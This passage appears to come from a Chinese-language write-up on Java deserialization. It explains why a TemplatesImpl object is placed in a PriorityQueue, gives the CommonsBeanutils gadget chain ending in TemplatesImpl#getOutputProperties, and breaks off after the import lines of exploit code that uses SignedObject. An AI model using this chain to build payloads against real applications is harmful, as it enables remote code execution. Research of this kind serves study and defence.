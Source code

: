 [![](assets/1709112106-a06203a57f3d35200da00845fd77f4dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227203002-edb98b50-d56b-1.png)

在`heapify`​中就传了对象，再往上跟就是`readObject`​了，而在`heapify`​中进行了数组的右移所以可以寻找到该属性通过 `priorityQueue.add(templates);`​传入的类，如果我们传入 `3`​ 就会不一样了

[![](assets/1709112106-053dd297d695b3a621104afd1cec29ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227203006-f0506bd6-d56b-1.png)

就会变成数字类`3`​ 这也就是为什么我们队列这里要写入`TemplatesImpl`​类，这样子才能去调用到`TemplatesImpl`​类的 getter 方法

调用链

```bash
PriorityQueue#ReadObject() -> PriorityQueue#siftDownUsingComparator() -> BeanComparator#compare() ->PropertyUtilsBean#getSimpleProperty() -> TemplatesImpl#getOutputProperties()
```

```bash
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
```